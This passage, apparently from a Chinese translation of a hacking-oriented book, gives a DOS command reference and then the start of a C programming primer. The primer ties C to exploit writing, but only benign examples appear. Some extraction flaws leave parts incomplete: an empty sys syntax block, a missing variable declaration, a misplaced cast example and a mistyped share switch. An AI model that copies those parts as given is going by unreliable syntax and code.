假设您有一个名为 sales.jan 的文件，其中包含几个坏扇区。要恢复此文件，请输入：

```text
recover sales.jan
```

## Ren (Rename)

Rename 命令更改文件名。

### 语法

```text
rename [drive:][path]filename1 filename2
ren [drive:][path]filename1 filename2
```

其中：filename1 是旧名称，filename2 是新名称。

### 示例

以下命令将所有以 .txt 结尾的文件名扩展名更改为 .doc：

```text
ren *.txt *.doc
```


以下命令将 B 盘上的文件 *one.jan* 更改为 *two.jan*：

```
ren b:one.jan two.jan
```

## *Replace*

Replace 命令用于更新文件的早期版本。

### **语法**

```
replace [drive:]pathname1 [drive:] [pathname2] [/a][/p][/r][/s][/w]
```

其中 pathname1 是源路径，而 pathname2 是目标路径和文件名。

### **注释**

replace 命令接受以下开关：

- /a 将新文件添加到目标目录中，而不是替换现有文件。
- /p 在替换目标文件或添加源文件之前提示用户，显示以下消息：“替换文件名?(Y/N)”
- /r 同时替换只读文件和非保护文件。
- /s 在替换匹配文件时，搜索目标目录的所有子目录。
- /w 在开始搜索源文件之前，等待用户插入磁盘。

### **示例**

假设你的硬盘（C 盘）上的各个目录都包含一个名为 *phone.cli* 的文件，该文件包含客户名称和号码。要更新这些文件并用 A 盘中 *phone.cli* 文件的最新版本进行替换，请键入：

```
replace a:\ phone.cli c:\ /s
```

## *Restore*

此命令恢复使用 backup 命令备份的文件。

### **语法**

```
restore drive1:[drive2:] [pathname] [/s][/p][/b:date][a:date]
    [/e:time][/L:time][/m] [/n]
```

其中 drive1 包含备份文件，drive2 是目标驱动器。

### **注释**

restore 命令接受以下开关：

- /s 同时恢复子目录。
- /p 提示是否允许恢复文件。
- /b:date 仅恢复在指定日期之前或当天最后修改的文件。
- /a:date 仅恢复在指定日期之后或当天最后修改的文件。
- /e:time 仅恢复在指定时间之前或该时间最后修改的文件。
- /L:time 仅恢复在指定时间之后或该时间最后修改的文件。
- /m 仅恢复自上次备份以来已修改的文件。
- /n 仅恢复在目标磁盘上不再存在的文件。

### **示例**

要从 A 盘的备份盘恢复文件 report.one 到 C 盘的 \sales 目录，请键入：

```
restore a: c:\sales\report.one
```

## Rmdir (Rd)

Rmdir 命令从多级目录结构中移除一个目录。

### **语法**

```
rmdir [drive:]path
```

或者

```
rd [drive:]path
```

### **注释**

Rmdir 命令移除空目录，但 “.” 和 “..” 符号除外。这两个符号分别代表当前目录本身及其父目录。在完全移除一个目录之前，必须删除其中的文件和子目录。

### **注意**

不能移除包含隐藏文件的目录。

### **示例**

要移除名为 \papers\jan 的目录，请键入：

```
rd \papers\jan
```

## Select

Select 命令安装带有特定国家信息和键盘布局的 DOS 到新软盘。

### **语法**

```
select[[drive1:] [drive2:] [path]  [yyy] [xx]
```

其中 *drive1* 是源驱动器，*drive2* 是目标驱动器。

### **注释**

*select* 命令允许你在新磁盘上安装 DOS，并附带所选国家的特定信息（如日期和时间格式、排序顺序）。*select* 命令执行以下操作：

- 格式化目标磁盘。
- 在新磁盘上创建 *config.sys* 和 *autoexec.bat* 文件。
- 将源磁盘的内容按轨道复制到目标磁盘。

源驱动器可以是 A 或 B。默认源驱动器为 A，默认目标驱动器为 B。你可以将以下选项与 *select* 命令一起使用：

- **yyy** 指定国家代码。
- **xx** 指定所使用的键盘布局的键盘代码（参见 *keyb* 命令）。

### **示例**

假设你想创建一个包含德国特定国家信息和键盘布局的新 DOS 磁盘。将源磁盘放入 B 盘，目标磁盘放入 A 盘，然后键入：

```
select b: a: 049 gr
```

## **Set**

此命令将环境中的一个字符串设置为另一个字符串，以便在后续程序中稍后使用。

### **语法**

```
set [string = [string]]
```

### **注释**

只有当你想为你编写的程序设置值时，才应使用 *set* 命令。当 DOS 识别到 *set* 命令时，它将给定的字符串及其等价物插入到为环境保留的内存部分中。如果该字符串已存在于环境中，则会被新设置替换。

如果你只指定第一个字符串，*set* 会从环境中移除该字符串的任何先前设置。或者，如果你在不使用选项的情况下使用 *set* 命令，DOS 将显示当前环境设置。

### **示例**

以下命令将字符串 “hello” 设置为 c:\letter，直到你用另一个 *set* 命令更改它为止：

```
set hello=c:\letter
```

## Share

Share 安装文件共享和锁定功能。

**语法**：

```
share  [/:space] [/L:locks]
```

**注释**

只有当网络处于活动状态时，你才能看到 share 命令。如果你想安装共享文件，可以将 share 命令包含在你的 *autoexec.bat* 文件中。

share 命令接受以下开关：

- /I:space 为记录文件共享信息的 DOS 存储区域分配文件空间（以字节为单位）。默认值为 2048。请注意，每个打开的文件需要足够的空间来容纳完整文件名的长度，外加 11 个字节，因为平均路径名长度为 20 个字节。
- /L:locks 分配你希望允许锁定的数量。默认值为 20。

**示例**

以下示例加载文件共享，并使用 /f 和 /L 开关的默认值：

```
share
```

## Sort

Sort 读取输入，对数据进行排序，然后将排序后的数据写入屏幕、文件或另一个设备。

**语法**

```
[source]  |  sort  [ /r ] [ /+ n ]
```

或者

```
sort  [ /r ] [ /+ n ]  source
```

其中 source 是文件名或命令。

**注释**

sort 命令是一个过滤器程序，允许你根据特定列中的字符对文件进行字母排序。sort 程序使用基于国家代码和代码页设置的排序顺序表。

管道符 (|) 和小于号 (<) 重定向符号将数据从 source 通过 sort 实用程序。例如，你可以使用 dir 命令或文件名作为源。你可以使用 more 命令或文件名作为目标。

sort 命令接受以下开关：

- /r 反转排序；即从 Z 到 A，然后从 9 到 0 排序。
- /+n 根据第 n 列中的字符对文件进行排序，其中 n 是某个数字。

除非你指定了源，否则 sort 作为过滤器起作用，并接受来自 DOS 标准输入（通常来自键盘、管道或从文件重定向）的输入。

### **示例**

以下命令读取文件 expenses.txt，以逆序对其进行排序，并在屏幕上显示它：

```
sort /r expenses.txt
```

## *Subst*

此命令用驱动器号替换路径。

### **语法**

```
subst [drive: drive:path]
```

或者

```
subst drive: /d
```

### **注释**

subst 命令允许你将路径与驱动器号关联。由于你可以像在命令中表示实际物理驱动器一样使用该驱动器号，因此该驱动器号代表一个虚拟驱动器。

当 DOS 找到使用虚拟驱动器的命令时，它会将驱动器号替换为路径，并像该新驱动器号属于物理驱动器一样处理它。

如果你键入没有选项的 subst 命令，DOS 将显示当前生效的虚拟驱动器名称。

你可以使用 /d 开关删除虚拟驱动器。

### **示例**

以下命令为路径名 b:\paper\jan\one 创建虚拟驱动器 Z 盘：

```
subst z: b:\paper\jan\one
```

## *Sys*

Sys 将 DOS 系统文件从默认驱动器中的磁盘传输到指定驱动器中的磁盘。

### **语法**


### sys

`sys` 命令不会传输 `command.com` 文件。你必须使用 `copy` 命令手动执行此操作。

如果你要将 DOS 系统文件从当前工作目录复制到 A 盘驱动器上的磁盘，请输入：

```
sys a:
```

### time

此命令允许你输入或更改时间设置。

语法：

```
time  [hours:minutes[:seconds [.hundredths]]]
```

DOS 通常以 24 小时制格式记录时间。

### tree

Tree 命令显示指定驱动器上每个目录和子目录的路径（并可选择列出其内容）。

语法：

```
tree  [drive:]  [/f]
```

如果你想查看计算机上所有目录和子目录的名称，请输入：

```
tree
```

`/f` 开关用于显示每个目录中的文件名称。

### type

Type 命令在屏幕上显示文本文件的内容。

语法：

```
type  [drive:]filename
```

如果你想显示名为 *letter.bob* 的文件的内容，请输入：

```
type letter.bob
```

如果文件内容超过一屏的长度，请参阅 `more` 命令以了解如何逐屏显示。

### ver

Ver 命令打印 DOS 版本号。

语法：

```
ver
```

如果你想显示你系统上的 DOS 版本，请输入：

```
ver
```

### verify

此命令在写入磁盘时打开或关闭验证开关。

语法：

```
verify [on]
```

或

```
verify [off]
```

你可以使用此命令来验证文件是否正确写入磁盘（例如，没有坏扇区）。DOS 会在数据写入磁盘时进行验证。

### vol

Vol 命令显示磁盘卷标（如果存在）。

语法：

```
vol [drive:]
```

如果你想了解 A 盘驱动器中磁盘的卷标是什么，请输入：

```
vol a:
```

### xcopy

Xcopy 命令复制文件和目录，包括存在的下级目录。

语法：

```
xcopy [drive:]pathname[drive:][pathname] [/a] [/d:date]
[/e] [/m] [/p] [/s] [/v] [/w]
```

或

```
xcopy drive:[pathname][drive:][pathname] [/a] [/d:date]
[/e] [/m] [/p] [/s] [/v] [/w]
```

第一组驱动器和路径参数指定要复制的源文件或目录；第二组命名目标。你必须至少包含一个源参数。如果省略目标参数，xcopy 假设你想将文件复制到默认目录。

xcopy 命令接受以下开关：

- **/a** 复制设置了存档位的源文件。
- **/d:date** 复制在指定日期或之后修改的源文件。
- **/e** 复制任何子目录，即使它们是空的。必须与 /s 开关一起使用。
- **/m** 与 /a 开关相同，但在复制文件后，它会关闭源文件中的存档位。
- **/p** 显示 “(Y/N),” 提示，允许你确认是否创建每个目标文件。
- **/s** 复制目录和下级子目录，除非它们是空的。
- **/v** 使 xcopy 在写入每个文件时进行验证。
- **/w** 使 xcopy 在开始复制文件前等待。

以下示例将 A 盘磁盘上的所有文件和子目录（包括任何空的子目录）复制到 B 盘磁盘：

```
xcopy a: b: /s /e
```

### 展望未来

黑客认为本章涵盖的主题是坚实技术核心的重要组成部分。大多数黑客还将 C、Visual Basic 和汇编语言等编程语言列入此列表。下一章以略显陈旧的方式介绍了其中最突出的语言——C 语言，以帮助识别在整个地下网络中广泛使用的多数安全漏洞利用和黑客工具。

# 黑客编程基础

## C 编程语言

所有黑客，从资深者到新手，都将学习 C 语言作为其技术基础的一部分，因为大多数安全漏洞利用和黑客工具都是用 C 编程语言编译的。因此，逻辑上，本书中发现的大部分程序代码都是 C 源代码片段的汇编。这些程序可以被操作、修改并编译用于你自己的自定义分析。


> 本节由编程大师 **Matthew Probert** 提供输入，作为 C 编程语言的入门指南。其目的是帮助加强成功利用本书及附带 CD 中代码片段所需的编程基础。要全面掌握 C 语言的速成课程，请查看 **John Wiley & Sons, Inc.** 在 **www.wiley.com** 上的众多出版物。

C 编程语言的显著区别特征如下：

- 块结构流程控制构造（大多数高级语言的典型特征）
- 操纵基本机器对象（例如，字节）的自由度，并使用所需的任何特定对象视图来引用它们（汇编语言的典型特征）
- 同时具备高级操作（例如，浮点算术）和低级操作（这些操作紧密映射到机器语言指令，从而提供以最优且可移植方式编码的手段）

本章旨在描述通常在 PC 编译器中找到的 C 编程语言，以便没有广泛 C 语言知识的程序员可以使用 PC 开始用 C 进行编程（包括 PC 提供的 ROM 设施和 DOS 提供的设施）。

**假设读者可以访问 C 编译器，以及随其提供的关于库函数的文档。示例程序是使用 Borland’s Turbo C 编写的；Turbo C 提供的大多数非标准设施可以在后来版本的 Microsoft C 中找到。**

### C 的版本

原始 C（在 Kernighan 和 Ritchie 的《The C Programming Language》（Prentice-Hall, 1988）出版之前）将组合赋值运算符（+=, \*=, 等等）定义得比较反向（即，它们被写成 =+, =\*, 等等）。这在编译如下语句时造成了可怕的混淆：

```
x=-Y;
```

它可能意味着：

```
x = x - y 或 x = (-y);
```

Ritchie 很快发现了这种歧义并修改了语言，使得这些运算符按照现在熟悉的方式书写（+=, *=, 等等）。然而，主要的变体存在于 Kernighan 和 Ritchie 的 C 与 ANSI C 之间。这些可以概括如下：

- 在声明中引入函数原型；改变函数定义前缀以匹配原型的样式。
- 引入省略号 (...) 以显示可变长度的函数参数列表。
- 引入关键字 *void*（用于不返回值的函数）和类型 *void \** 用于通用指针变量。
- 在前处理中添加 *string*（字符串合并）、*token*-past（标记拼接）和 *string-izing*（字符串化）功能。
- 在前处理中添加 *trigraph*（三字符序列）转换。
- 添加 *#pragma* 指令，并正式化前处理中的 *declared()* 伪函数。
- 引入 *multibyte*（多字节）字符串和 *characters*（字符）以支持非英语语言。
- 引入 *signed* 关键字（用于补充在整数声明中使用 *unsigned* 关键字的情况）和一元加号 (+) 运算符。

### C 语言的分类

C 提供的强大设施，允许操纵直接内存地址和数据，加上 C 的结构化编程方法，是 C 被归类为“中级”编程语言的原因。它比 BASIC 等高级语言具备的现成设施更少，但比低级汇编语言具备更高的结构级别。

### 关键字

原始 C 语言提供了 27 个关键字。ANSI C 标准委员会在这 27 个基础上又增加了 5 个。这导致了 C 语言的两个标准；然而，ANSI 标准已经取代了旧的 Kernighan 和 Ritchie 标准。关键字如下：

| Auto | double | int | Struct |
| :--- | :--- | :--- | :--- |
| break | else | long | switch |
| Case | enum | register | Typedef |
| Char | extern | return | Union |
| Const | float | short | Unsigned |
| continue | for | signed | Void |
| Default | goto | sizeof | Volatile |
| Do | if | static | While |

请注意，一些 C 编译器提供额外的关键字，这些关键字特定于它们运行的硬件环境。你应该了解你自己 C 编译器的额外关键字。


## C 的结构

C 程序以结构化的方式编写。通过创建一系列相互调用的代码块来组成完整的程序。作为一种结构化语言，C 提供了各种循环和测试命令，例如：

- do-while, for, while, if

C 代码块包含在一对大括号（`{ }`）内，可以是一个称为*函数*的完整过程，或者是函数内部的代码子集。例如，以下是一个代码块：

```
if (x < 10) 
{    
    a = 1;  
    b = 0;  
}
```

大括号内的语句仅在满足 x < 10 的条件时执行。

下一个示例是一个完整的函数代码块，其中包含一个作为 do-while 循环的子代码块：

```
int GET_X() 
{ 
    int x;  
    do 
    { 
        printf ("\nEnter a number between 0 and 10 "); 
        scanf ("%d", &x);  
    } while (x < 0 || x > 10);  
    return (x);  
}
```

请注意，每个语句行都以分号结束，除非该语句标记了代码块的开始，在这种情况下，它后面跟随一个大括号。C 是一种区分大小写但自由流动的编程语言；命令之间的空格被忽略，因此需要分号分隔符来标记命令行结束。由于这种自由流动的结构，以下命令被 C 编译器识别为相同：

```
x = 0; 
x      = 0; 
x=0;
```

C 程序的一般形式如下：

- 编译器预处理语句
- 全局数据声明
- 返回类型 main (参数列表)

```
{ 
    statements
    return-type f1(parameter list)
    {
        statements
    }
    return-type f2(parameter list)
    {
        statements
    }
    .
    .
    return-type fn(parameter list)
    {
        statements
    }
}
```

### 注释

与大多数其他语言一样，C 允许在程序中包含注释。注释行被包含在 `/*` 和 `*/` 之间：

```
/* This is a legitimate C comment line */
```

### 库

C 程序与 C 编译器提供的库函数一起编译和链接。这些库由标准函数组成，其功能由 C 语言的 ANSI 标准定义；它们由各个 C 编译器制造商提供，因此具有机器依赖性。因此，标准库函数 printf() 在 DEC VAX 上和 IBM PC 上提供相同的功能，尽管库中实际的机器语言代码对每个平台都大不相同。然而，C 程序员不需要了解库的内部细节，只需要知道每个库函数在任何计算机上行为都是相同的。

### C 编译

在引用 C 函数、命令、序列和高级编码之前，我们将查看实际的程序编译步骤。编译 C 程序相对简单，但具有特定编译器的特点。例如，菜单驱动的编译器允许用户通过一次按键来编译、构建和执行程序。从所有实际目的来看，我们将通过终端控制台来检查这些过程。

从任何编辑器中，输入以下片段并将文件保存为 *example.c*：

```
/*
    simple pop-up text message
*/
#include<stdio.h>
void main()
{
    printf( "Wassup!!!\n" );
}
```

此时，我们需要将代码编译成程序文件，然后该片段才能运行或执行。在控制台中，在与新创建的 *example.c* 相同的目录下，输入以下编译命令：

```
cc example.c
```

请注意，编译命令语法因编译器而异。我们的示例基于 C 标准。目前，常见的语法通常源自 GNU C 编译器，并会按以下方式执行：

```
gcc example.c
```

成功完成后，我们的示例片段已被编译成系统程序文件并等待执行。显然，从简单代码推导出的输出产生以下结果：

```
Wassup!!!
Press any key to continue
```

这就是全部内容了！C 片段编译相对简单；但是，要注意破坏性渗透程序的结果。当然，本书中随处可见以及随附 CD 上提供的利用编码复杂得多，但你应该明白其中的原理。

### 数据类型

C 语言中有四种基本数据类型：字符型、整型、浮点型和无值型，分别由 C 关键字 *char*、*int*、*float* 和 *void* 指代。可以使用以下类型修饰符添加基本数据类型：*signed*、*unsigned*、*long* 和 *short*，以生成进一步的数据类型。默认情况下，数据类型假定为有符号的；因此，除非要覆盖编译器默认为无符号的数据类型开关，否则很少使用 signed 修饰符。每种数据类型的大小因硬件平台而异，但可以保持的最窄值范围在表 7.1 中根据 ANSI 标准给出。

在实践中，这意味着数据类型 *char* 特别适用于存储标志类型的变量，例如具有有限值范围的状态码。可以使用 *int* 数据类型，但如果值范围不超过 127（或无符号字符的 255），则每个声明的变量都会浪费存储空间。

应该使用哪种实数数据类型——*float*、*double* 还是 *long double*——是一个棘手的问题。当需要数值精度时，例如在会计应用程序中，本能的做法是使用 long double，但这需要至少 10 字节的存储空间用于每个变量。实数不如整数精确，因此最好使用整数数据类型来解决这个问题。数据类型 *float* 更差，因为其六位精度太不准确，无法依赖。通常，你应尽可能使用整数数据类型，但如果需要实数，则使用 *double*。

**表 7.1 C 数据类型大小和范围**

| 类型 | 大小 | 范围 |
| :--- | :--- | :--- |
| Char | 8 | -127 到 127 |
| unsigned char | 8 | 0 到 255 |
| Int | 16 | -32767 到 32767 |
| unsigned int | 16 | 0 到 65535 |
| long int | 32 | -2147483647 到 2147483647 |
| unsigned long int | 32 | 0 到 4294967295 |
| Float | 32 | 6 位精度 |
| Double | 64 | 10 位精度 |
| long double | 80 | 10 位精度 |

### 声明变量

C 程序中的所有变量在使用前必须声明。变量定义的一般形式为：

```
type name;
```

因此，例如，要声明一个数据类型为 int 的变量 x，以便它可以存储 -32767 到 32767 范围内的值，你可以使用以下语句：

```
int x;
```

字符串也可以声明为字符数组：

```
char name[number_of_elements];
```

要声明一个长度为 30 个字符的字符串 *name*，你会使用以下声明：

```
char name[30];
```

其他数据类型的数组也可以声明为一维、二维或更高维度。例如，要声明一个二维整数数组，你会使用：

```
int x[10][10];
```

该数组的元素访问方式如下：

```
x[0][0]
x[0][1]
x[n][n]
```

变量访问有三个级别：局部、模块和全局。在代码块内声明的变量仅对该代码块内的语句可知。在任何函数代码块外声明但以存储修饰符 “static” 为前缀的变量，仅对该源模块内的语句可知。在任何函数外声明且不以 static 存储类型修饰符为前缀的变量，可被程序中任何源模块内的任何语句访问。例如：

```
int error;
static int a;

main()
{
    int x;
    int y;
}

func a()
{
    /* Test variable 'a' for equality with 0 */
    if (a == 0)
    {
        int b;
        for (b = 0; b < 20; b++)
            printf("\nHello World");
    }
}
```

在此示例中，变量 *error* 可被所有组合编译形成最终程序的源代码模块访问。变量 *a* 可被 main() 和 func a() 两个函数中的语句访问，但对任何其他源模块不可见。变量 *x* 和 *y* 仅可被函数 main() 内的语句访问。最后，变量 *b* 仅可跟随 *if* 语句之后的代码块内的语句访问。

如果第二个源模块想要访问变量 *error*，则需要将 *error* 声明为 *extern* 全局变量，例如：

```
extern int error;
```

```
func b()
{

}
```

C 会很容易地允许你将不同的数据类型赋值给彼此。例如，你可以声明一个 *char* 类型的变量，在这种情况下将分配一个字节的存储空间来存储该变量。你可以尝试将此变量分配更大的值：

```
main()
{
    x = 5000;
}
```

在此示例中，变量 *x* 只能存储 -127 到 128 之间的值，因此数字 5000 *不会* 被赋值给变量 *x*。相反，值 136 将被赋值。

通常，你可能希望将不同的数据类型赋值给彼此；为了防止编译器警告可能的错误，你可以使用*强制转换语句*告诉编译器你知道自己在做什么。强制转换语句是一个括号内的数据类型，位于变量或表达式之前：


在此示例中，`(int)` 强制类型转换告诉编译器在将值赋给变量 y 之前，先将浮点变量 x 的值转换为整数。

```c
main() {
float x;
int y;

x = 100 / 25;

y = (int)x;
}
```

## 形式参数

C 函数可以从调用函数接收参数。这些参数在函数名称的括号内被声明为变量，例如：

```c
int MULT(int x, int y)
{
/* Return parameter x multiplied by parameter y */
return(x * y);
}
```

```c
main()
{
int a;
int b;
int c;

a = 5;
b = 7;
c = MULT(a,b);

printf("%d multiplied by %d equals %d\n",a,b,c);
}
```

## 访问修饰符

有两种访问修饰符：*const* 和 *volatile*。声明为 const 的变量可能不能被程序修改，而声明为 volatile 类型的变量可以被程序修改。此外，将变量声明为 volatile 可防止 C 编译器将变量分配给寄存器，并减少对该变量的优化操作。

## 存储类别类型

C 提供四种存储类型：*extern*、*static*、*auto* 和 *register*。extern 存储类型用于允许 C 程序中的源模块访问在另一个源模块中声明的变量。静态变量只能在声明它们的代码块内访问；此外，如果变量是局部的而非全局的，它们会在对代码块的后续调用之间保留其旧值。

寄存器变量尽可能存储在 CPU 寄存器中，提供对其值的最快访问。auto 类型变量仅用于局部变量，并声明变量在局部保留其值。由于这是局部变量的默认行为，auto 存储类型很少使用。

# 运算符

运算符是应用于变量时引发计算发生的标记。C 提供以下运算符：

- & 取地址
- * 间接引用
- + 一元加号
- - 一元减号
- ~ 按位取反
- ! 逻辑非
- ++ 作为前缀；前置自增
- -- 作为前缀；前置自减
- + 加法
- - 减法
- * 乘法
- / 除法
- % 取余
- << 左移
- >> 右移
- & 按位与
- | 按位或
- ^ 按位异或
- && 逻辑与
- || 逻辑或
- = 赋值
- *= 赋值乘积
- /= 赋值商
- %= 赋值余数（模）
- += 赋值和
- -= 赋值差
- <<= 赋值左移
- >>= 赋值右移
- &= 赋值按位与
- |= 赋值按位或
- ^= 赋值按位异或
- < 小于
- > 大于
- <= 小于或等于
- >= 大于或等于
- == 等于
- != 不等于
- . 直接分量选择器
- -> 间接分量选择器
- a ? x : y "如果 a 为真，则 x；否则 y"
- [ ] 定义数组
- () 括号隔离条件和表达式。
- ... 省略号用于函数原型的形式参数列表中，以表示可变数量的参数或不同类型 的参数。

为了说明一些常用运算符，请考虑以下简短程序：

```c
main()
{
  int a;
  int b;
  int c;
  a = 5;        /*Assign a value of 5 to variable 'a'*/
  b = a/2;      /*Assign the value of 'a' divided by two to variable 'b'*/
  c = b * 2;    /*Assign the value of 'b' multiplied by two to variable 'c'*/

  if (a == c)    /* Test if 'a' holds the same value as 'c' */
    puts("Variable 'a' is an even number");
  else
    puts("Variable 'a' is an odd number");
}
```

通常，当递增变量的值时，你会写类似以下内容：

```c
x = x + 1
```

C 还提供增量运算符 ++，因此你可以写成：

```c
x++
```

同样，你可以使用 -- 递减变量的值，如下所示：

```c
x--
```

所有其他数学运算符都可以以相同方式使用；因此，在 C 程序中，你可以写成简写形式：

| 常规写法 | C 简写 |
|---|---|
| x = x + 1 | x++ |
| x = x - 1 | x-- |
| x = x * 2 | x *= 2 |
| x = x / y | x /= y |
| x = x % 5 | x %= 5 |

# 函数

函数是构成 C 程序的源代码过程。它们遵循以下一般形式：

```c
return_type function_name(parameter_list)
{
	statements
}
```

return_type 指定函数将返回的数据类型：char、int、double、void 等。C 函数内的代码对其他任何 C 函数都是不可见的；不能从一个函数跳到另一个函数的中间，尽管函数可以调用其他函数。此外，函数不能在其他函数内部定义，只能定义在源模块中。

参数可以通过值或通过引用传递给函数。如果参数通过值传递，则只有参数的当前值的副本被传递给函数。然而，通过引用传递的参数是指向实际参数的指针，该指针随后可以被函数修改。以下示例将两个参数通过值传递给函数 funca( )，该函数尝试修改传递给它的变量的值。然后，它将相同的两个参数通过引用传递给 funcb( )，后者也尝试修改它们的值：

```c
#include <stdio.h>
int funca(int x, int y)
{
/* This function receives two parameters by value, x and y */
x = x * 2;
y = y * 2;

printf("\nValue of x in funca() %d value of y in funca() %d",x,y);

return(x);
}

int funcb(int *x, int *y)
{
/* This function receives two parameters by reference, x and y */

*x = *x * 2;
*y = *y * 2;

printf("\nValue of x in funcb() %d value of y in funca() %d",*x, *y);

return(*x);
}

main()
{
int x;
int y;
int z;

x = 5;
y = 7;

z = funca(x,y);
z = funcb(&x,&y);

printf("\nValue of x %d value of y %d value of z %d",x,y,z);
}
```

在这里，funcb() 不改变其接收的参数的值；相反，它改变接收的指针所指向的内存地址中的内容。虽然 funca() 从函数 main( ) 接收变量 x 和 y 的值，但 funcb( ) 从函数 main( ) 接收变量 x 和 y 的内存地址。

# 向函数传递数组

以下程序将一个数组传递给函数 funca( )，该函数初始化数组元素：

```c
#include <stdio.h>

void funca(int x[])
{
int n;
    for(n = 0; n < 100; n++)
        x[n] = n;
    }

main()
{
    int array[100];
    int counter;

    funca(array);

    for(counter = 0; counter < 100; counter++)
        printf ("\nValue of element %d is %d",counter,array[counter]);
}
```

funca() 的参数 int x[] 被声明为任意长度的数组。之所以有效，是因为编译器将数组参数的起始地址传递给函数，而不是各个元素的值。这当然意味着函数可以改变数组元素的值。为了防止函数改变值，你可以将参数指定为 const 类型：

```c
func(const int x[])
{
```

这将导致在尝试向数组写入值的行处产生编译器错误。然而，将参数指定为 const 并不能保护该参数免受间接赋值的影响，如下面的程序所示：

```c
#include <stdio.h>

int func(const int x[])
{
    int *ptr;
    int n;

/*  This line gives a 'suspicious pointer conversion warning' */
/*  because x is a const pointer, and ptr is not */
    ptr = x;

    for(n = 0; n < 100; n++)
    {
        *ptr = n;
        ptr++;
    }
}

main()
{
    int array[100];
    int counter;

    func(array);
    for (counter = 0; counter < 100; counter++)
        printf ("\nValue of element %d is %d",counter,array[counter]);
}
```

# 向 main() 传递参数

C 允许在程序开始执行时通过两个参数 *argc* 和 *argv[ ]* 从操作系统向程序传递参数，如下所示：

```c
#include <stdio.h>

main(int argc, char *argv[ ])
{
    int n;
    for (n = 0; n < argc; n++)
        printf ("\nParameter %d equals %s",n,argv[n]);
}
```

参数 *argc* 保存传递给程序的参数数量；而数组 *argv[ ]* 保存每个传递参数的地址；*argv[0]* 始终是程序名称。此功能在需要访问系统文件的应用程序中可以得到很好的利用。考虑以下场景：一个简单的数据库应用程序将其数据存储在一个名为 *data.dat* 的单个文件中。需要创建该应用程序，使其可以存储在使用软盘或硬盘上的任何目录中，并且既可以从宿主目录内部执行，也可以通过 DOS 搜索路径执行。为了正确工作，应用程序必须始终知道在哪里找到数据文件 *data.dat*。这可以通过假设数据文件与可执行模块位于同一目录来解决，这是加诸操作员的一个并不不合理的限制。以下代码片段说明了应用程序如何应用此算法以始终能够定位所需的系统文件：

```c
#include <string.h>

char system_file_name[160];

void main(int argc,char *argv[ ])
{
    char *data_file = "DATA.DAT";
    char *p;

    strcpy(system_file_name,argv[0]);
    p = strstr(system_file_name,".EXE");
    if (p == NULL)
    {
        /* The executable is a .COM file */
        p = strstr(system_file_name,".COM");
    }

    /* Now back track to the last '\' character in the file name */
    while (*(p - 1) != '\\')
        p--;
}
```

235


```c
strcpy(p, data_file);
}
```

在实际应用中，这段代码会在 `system_file_name` 中创建一个由路径\\data.dat 组成的字符串。因此，例如，如果可执行文件名为 `test.exe`，并且位于目录\\borland\ 中，那么 `system_file_name` 将被赋值为 '\\borland\data.dat'。

## 从函数返回

return 命令用于立即从函数返回。如果函数声明了返回数据类型，则 return 应配合相同数据类型的参数使用。

## 函数原型

函数原型允许 C 编译器检查传入和传出函数的数据类型是否正确。这对于防止数据溢出其分配的空间并进入其他变量区域非常重要。函数原型放置在程序开头，在任何预处理器命令（如 `#include <stdio.h>`）之后，且在任何函数声明之前。

## C 预处理器命令

在 C 语言中，可以将发送给编译器的指令包含在源代码中。这些称为预处理器命令，ANSI 标准将其定义为：

- #if
- #ifdef
- #ifndef
- #else
- #elif
- #endif
- #include
- #define
- #undef
- #line
- #error
- #pragma

所有预处理器命令以井号或磅号（#）开头，并且必须单独占一行（尽管后面可以跟注释）。以下各小节将依次定义这些命令。

### #define

#define 命令指定一个标识符和一个字符串，编译器会在该源代码模块中每次遇到该标识符时进行替换。例如：

```c
#define FALSE 0
#define TRUE !FALSE
```

编译器会将后续出现的 FALSE 替换为 0，将后续出现的 TRUE 替换为 !0。如果编译器发现标识符被引号包围，则*不会*进行替换；因此：

```c
printf ("TRUE");
```
不会被替换，但
```c
printf ("%d",FALSE);
```
会被替换。

#define 命令还可以用于定义可能包含参数的宏。最好将参数括在括号中，以确保正确替换。以下示例声明了一个宏 larger()，它接受两个参数并返回其中较大的那个：

```c
#include <stdio.h>

#define larger(a,b)    (a > b) ? (a) : (b)

int main()
{
    printf("\n%d is largest",larger(5,7));
}
```

### #error

#error 命令会导致编译器停止编译并显示 #error 命令后的文本。例如：

```c
#error REACHED MODULE B
```
会导致编译器停止编译并显示：

REACHED MODULE B

### #include

#include 命令告知编译器读取另一个源文件的内容。源文件的名称必须用引号或尖括号括起来：

```c
#include "module2.c"
#include <stdio.h>
```

通常，如果文件名用尖括号括起来，编译器将在编译器配置中定义的目录中搜索该文件。

### #if, #else, #elif, #endif

#if 系列命令提供围绕一般形式的条件编译：

```c
#if constant_expression
    statements
#else
    statements
#endif
```

#elif 命令代表 #else if，遵循以下形式：

```c
#if expression
    statements
#elif expression
    statements
#endif
```

### #ifdef, #ifndef

这两个命令分别代表 #if defined 和 #if not defined，遵循以下一般形式：

```c
#ifdef macro_name
    statements
#else
    statements
#endif
```

```c
#ifndef macro_name
    statements
#else
    statements
#endif
```

其中 macro_name 是由 #define 语句声明的标识符。

### #undef

#undef 命令取消之前由 #define 定义的宏。

### #line

#line 命令更改编译器声明的全局变量 __LINE__ 和 __FILE__。#line 的一般形式为：

```c
#line number "filename"
```

其中 number 被插入到变量 __LINE__ 中，"filename" 被赋值给 __FILE__。

### #pragma

此命令用于向编译器提供特定于编译器的指令。

## 程序控制语句

与其他计算机语言一样，C 语言包含测试表达式结果的语句。测试结果为 TRUE 或 FALSE。C 语言将 TRUE 定义为非零值，将 FALSE 定义为零。

### 选择语句

通用选择语句是 “if”，遵循以下一般形式：

```c
if (expression)
    statement
else
    statement
```

其中 statement 可以是单条语句，也可以是用大括号括起来的代码块（else 是可选的）。如果表达式的结果等于 TRUE，则执行 if ( ) 后面的语句。否则，执行 else 后面的语句。

if…else 组合的一个替代方案是 ?: 命令，其形式如下：

```c
expression ? true_expression : false_expression
```

如果 expression 的求值结果为 TRUE，则执行 true_expression；否则，执行 false_expression。在这种情况下，我们得到：

```c
#include <stdio.h>

main()
{
 int x;

 x = 6;

 printf ("\nx is an %s number", x % 2 == 0 ? "even" : "odd");
}
```

C 语言还提供了一个多分支选择语句 switch，它依次测试表达式的值与一系列值的匹配情况，然后将程序执行分支到第一个匹配项。switch 的一般形式为：

```c
switch (expression)
{
case value1:    statements
    break;
case value2:    statements
    break;
...
case valuen:    statements
    break;
default : statements
}
```

break 语句是可选的，但如果省略，程序执行将继续向下遍历列表。

```c
#include <stdio.h>

main()
{
 int x;
 x = 6;
 switch (x)
 {
 case 0 : printf ("\nx equals zero");
 break;
 case 1 : printf ("\nx equals one");
 break;
